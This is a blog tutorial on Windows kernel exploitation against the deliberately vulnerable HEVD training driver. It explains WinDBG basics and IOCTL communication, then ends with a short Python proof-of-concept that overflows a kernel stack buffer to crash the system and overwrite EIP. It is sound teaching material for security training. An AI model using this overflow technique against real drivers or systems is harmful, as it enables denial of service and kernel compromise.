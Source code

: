 :page-slug: hevd-dos/
:page-date: 2020-09-14
:page-category: attacks
:page-subtitle: How to crash Windows
:page-tags: osee, training, exploit, windows, kernel, hevd
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330909/blog/hevd-dos/cover_cnggzc.webp
:page-alt: Photo by Chaozzy Lin on Unsplash
:page-description: This article will be the first approach to start exploting HackSys Extremely Vulnerable Driver with a Denial of Service
:page-keywords: Business, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:page-author: Andres Roldan
:page-writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/k8riOACwZDg

= HEVD: Denial of Service

In the last link:../windows-kernel-debugging/[post], we were able to set up
a lab environment to start exploiting vulnerabilities
in the Windows kernel space.

This article will focus on the first steps to exploit the vulnerabilities
on HackSys Extreme Vulnerable Driver (`HEVD`).

First, we need to get familiar with `WinDBG`, a very powerful
debugger from Microsoft with a steep learning curve. We'll also use `IDA`,
specifically the freeware version, which is enough
for most of what we're going to face.

In the end, we're going to be able to crash our Windows 10 OS by leveraging
a vulnerability on `HEVD`. It's nice to crash things for the sake of science.

Let's get our hands dirty!

== WinDBG 101

Before dealing with the exploitation process, I will list some `WinDBG`
commands that have helped me. This is selfishly written as a reference
for myself but kindly shared with you.

* `g`: Short for `Go`. It will resume the execution of the debuggee.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330907/blog/hevd-dos/g1_tz1tgb.webp[g command]

* `t`: Short for `Step Into`. It will execute the next instruction.
If it's a `call`, it will jump into the call content.

* `p`: Sort for `Step Over`. It will execute the next instruction.
If it's a `call`, it will execute whatever the call does and jump over it.

* `gu`: Short for `Step Out`. Will resume the execution until a `ret`
instruction is found. Useful when you `Step Into` a function and want to
return to the place it was called.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330907/blog/hevd-dos/deb1_nho4cy.webp[execution flow commands]

* `d*` family: Short for `Display Memory`. It will dump the contents
of a given memory address. The most useful variation on 32 bits debugging
is `dc` (dump double-word and ASCII chars).

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330907/blog/hevd-dos/dc1_jash41.webp[dt command]

* `lm`: Short for `List Loaded Modules`.
You can filter the output using `lm m <module>`.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330908/blog/hevd-dos/lm1_enljxt.webp[lm command]

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330906/blog/hevd-dos/lm2_eouttf.webp[lm m <module> command]

* `dt`: Short for `Display Type`. It is used to list data structures.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330906/blog/hevd-dos/dt1_vbu2ot.webp[dt command]

* `r`: Short for `Registers`. It will show the value of all the processor
registers and flags. It's also used to change the value of a register.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330906/blog/hevd-dos/r1_s2jzj9.webp[r command]

* `u`: Short for `Unassemble`. It will show the instructions
at the given memory address.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330908/blog/hevd-dos/u1_fp4xip.webp[u command]

* `x`: Short for `Examine Symbols`. It will show the symbols at a given module.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330909/blog/hevd-dos/x1_f0wxnj.webp[x command]

* `e*` family: Short for `Enter Values`. It will enter a given value to a
specified memory location. The most used variation on 32 bits debugging
is `ed` (enter double-word value).

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330906/blog/hevd-dos/ed1_fd7mct.webp[ed command]

* `?`: Evaluate expression.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330908/blog/hevd-dos/quest1_wtsnn3.webp[? command]

* `bp`: Short for `Breakpoint`. It will set a software breakpoint
at a given address.

* `bl`: Short for `List Breakpoints`. It will list current breakpoints.

* `bc`: Short for `Clear Breakpoint`. It will remove breakpoints.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330907/blog/hevd-dos/bp1_kh0l6w.webp[? command]

This is by no means a comprehensive `WinDBG` reference but will show the
commands I use the most when debugging.

== Talking to Windows drivers

The common main goal of Windows Kernel exploitation is to elevate privileges
to perform any desired task on the affected computer with the most
powerful permissions. We do that by finding a vulnerability in a piece of
code running at kernel-space and establishing a communication between the
exploit in user-mode and the target in kernel-mode,
which is where the drivers live.

As Windows runs in protected mode, user-land instructions cannot
access to kernel-space memory. However, there is an interface provided
by the OS that allows talking to drivers: `IOCTL` calls.

When a driver is installed, it sets a device name using the `IoCreateDevice`
call.

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330909/blog/hevd-dos/iocreatedevice1_jbuhha.webp[IoCreateDevice]

It then defines the routines that will expose. Commonly, those routines are
basically functions that will interact with other layers of the OS
(Hardware Abstraction Layer or `HAL`, for example) to manipulate a hardware
device. In `HEVD`, those routines are functions
happening at kernel-level with several vulnerabilities.

Each routine is identified by an `IOCTL` (I/O control) code.

The driver will accept calls to that routines using `IRP` (I/O Request Packets)
structures and will set a handler that will dispatch the specific routine,
given a specific `IOCTL` code:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330909/blog/hevd-dos/iohandler1_qmt9l5.webp[IrpHandler]

The `IrpDeviceIoCtlHandler` function in `HEVD` creates a jump table (like
a `switch` statement) for each managed `IOCTL` code:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330906/blog/hevd-dos/jmptable1_zih7lj.webp[JMP table]

In `HEVD`, each `case` of that `switch` statement is handled by another
function that will trigger a specific vulnerable function:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330907/blog/hevd-dos/jmptable2_pe1rxr.webp[JMP table]

Now, if we want to talk to that driver, we must get a handle on the
driver's device name, which is `HackSysExtremeVulnerableDrive` in the
case of `HEVD`, and use the `DeviceIoControl` function to send the
`IOCTL` code we want, along with the payload.

In Python, there's a third-party package called `infi.wioctl` that wraps
those calls nicely:

[source,python]
----
from infi.wioctl import DeviceIoControl

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_CODE, PAYLOAD, SIZE, 0, 0)
----

With that, we can start looking for our first vulnerability on `HEVD`.

== HEVD stack overflow

`HEVD` has several vulnerabilities built-in. In this post, we will discover
the most basic, a stack overflow.

When we look at the jump table generated by the `IrpDeviceIoCtlHandler`
function, the first case is this:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330908/blog/hevd-dos/case1_dmru9e.webp[Case 1]

It is triggered when the `IOCTL` code is `2236419` decimal or `0x222003`
in hex. Here, a call to `BufferOverflowStackIoctlHandler` is performed.

Inside `BufferOverflowStackIoctlHandler`, there is a check verifying if
the `IRP` package contains user-supplied data. If it does, a call to
`TriggerBufferOverflowStack` is performed:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330907/blog/hevd-dos/buffhandler1_unkrn3.webp[BufferOverflowStackIoctlHandler]

You can also note that the pointer to the user data is placed on `EDX` and
the pointer to the size of the user data is placed on `EAX`. That information
is then pushed to the stack as the parameters for `TriggerBufferOverflowStack`.
You can see the same in the source code of `HEVD`:

[source,cpp]
----
NTSTATUS
BufferOverflowStackIoctlHandler(
    _In_ PIRP Irp,
    _In_ PIO_STACK_LOCATION IrpSp
)
{
    SIZE_T Size = 0;
    PVOID UserBuffer = NULL;
    NTSTATUS Status = STATUS_UNSUCCESSFUL;

    UNREFERENCED_PARAMETER(Irp);
    PAGED_CODE();

    UserBuffer = IrpSp->Parameters.DeviceIoControl.Type3InputBuffer;
    Size = IrpSp->Parameters.DeviceIoControl.InputBufferLength;

    if (UserBuffer)
    {
        Status = TriggerBufferOverflowStack(UserBuffer, Size);
    }

    return Status;
}
----

In the `TriggerBufferOverflowStack` function, the first important thing
to notice is that a `memset(&KernelBuffer, 0, 800h)` call is done:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330907/blog/hevd-dos/trigger1_c4fsed.webp[TriggerBufferOverflowStack]

This indicates that the buffer is `800h` or `2048` bytes long.

In the end of `TriggerBufferOverflowStack`, a call to
`memcpy(&KernelBuffer, &UserBuffer, SizeOfUserBuffer)` is performed,
which is a classic example of buffer overflow because we control both the
`UserBuffer` data and the `SizeOfUserBuffer` value:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330909/blog/hevd-dos/trigger2_ft4sgf.webp[TriggerBufferOverflowStack]

Great, it means that if we wanted to overflow the `KernelBuffer`
variable, we should inject a payload with more than 2048 bytes,
using the `IOCTL` code `0x222003`. Let's create our exploit:

[source,python]
----
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow DoS.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/blog/hevd-dos/
"""

from infi.wioctl import DeviceIoControl

DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'

IOCTL_HEVD_STACK_OVERFLOW = 0x222003
SIZE = 3000

PAYLOAD = (
    b'A' * SIZE
)

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
----

And check it:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330908/blog/hevd-dos/success1_orbdny.gif[Success]

Great! We were able to overwrite `EIP` with our `A` buffer! Now the
target machine is completely unusable and our `DoS` attack was successful.

Also, as we could evidence in our previous link:../tags/osce/[exploitation posts],
we control the execution flow when we control `EIP`.

== Conclusions

This post was intended to cover the first part for interacting
with a Windows driver, and we were able to perform a full Denial of Service
of the victim machine. In the next post, we will use the proven ability
to control the execution flow to
link:../hevd-smep-bypass/[execute code at kernel-level].
